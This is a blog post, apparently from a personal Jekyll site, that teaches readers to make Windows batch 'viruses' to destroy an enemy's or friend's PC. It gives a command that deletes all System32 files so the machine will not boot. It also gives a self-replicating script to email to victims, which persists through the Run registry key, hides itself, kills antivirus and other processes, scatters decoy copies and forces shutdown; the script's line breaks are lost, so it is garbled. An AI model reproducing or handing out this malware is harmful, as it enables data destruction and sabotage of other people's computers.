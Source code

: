 ```yaml
---
layout: post
title:  "Destroy Your Friends Computer Using Simple Notepad Virus"
permalink: /destroy-your-friends-computer.html
redirect_from:
 - /2013/02/destroy-your-friends-computer-using.html
---
```


In this post we’ll take a look on how to create a deadly computer virus to destroy your enemy or victim’s PC…

Open Notepad, Type or Paste in the following command:-

    del c:\windows\system32\*.* /q

Save it with the extension “.bat or .cmd” as u want…

Don’t double click the file otherwise u r in trouble. Why??? Bcz the file u created deletes all files from your system32 folder and when u restart your PC it will not start bcz system can not find the files in the system32 folder which is required at the time of booting…

You can also test the above by creating a fake folder let suppose:-

windows1 in C:.

Copy some old files in it and just follow the above command. By double clicking the bat or cmd file ur all files automaitcally get deleted.

You can try this file one any one’s computer. (but this result in causing damage to the computer, so think again before trying this on anyone’s PC)

Virus 2:

This post is to help you to send viruses to your enemies! Here goes,

Paste the below given code in your Notepad, then save it as anyname.bat

Do not click on that batch file… Send it to your enimies’ email… It will:

1) Copy itself into startup

2) Copy itself over one thousand times into random spots in your computer

3) Hide its self and all other created files

4) Task kill MSN, Norton, Windows Explorer, Limewire.

5) Swap the left mouse button with the right one

6) Opens alert boxes

7) Changes the time to 12:00 and shuts down the computer

CODE:-

    @Echo offcolor 4title 4title R.I.Pstartstartstartstart calccopy %0 %Systemroot%\Greatgame > nulreg add HKLM\Software\Microsoft\Windows\CurrentVersion\Run /v Greatgame /t REG_SZ/d %systemroot%\Greatgame.bat /f > nulcopy %0 *.bat > nulAttrib +r +h Greatgame.batAttrib +r +hRUNDLL32 USER32.DLL.SwapMouseButtonstart calcclstskill msnmsgrtskill LimeWiretskill iexploretskill NMainstartclscd %userprofile%\desktopcopy Greatgame.bat R.I.P.batcopy Greatgame.bat R.I.P.jpgcopy Greatgame.bat R.I.P.txtcopy Greatgame.bat R.I.P.execopy Greatgame.bat R.I.P.movcopy Greatgame.bat FixVirus.batcd %userprofile%My Documentscopy Greatgame.bat R.I.P.batcopy Greatgame.bat R.I.P.jpgcopy Greatgame.bat R.I.P.txtcopy Greatgame.bat R.I.P.execopy Greatgame.bat R.I.P.movcopy Greatgame.bat FixVirus.batstartstart calcclsmsg * R.I.Pmsg * R.I.Pshutdown -r -t 10 -c "VIRUS DETECTED"startstarttime 12:00:R.I.Pcd %usernameprofile%\desktopcopy Greatgame.bat %random%.batgoto RIP
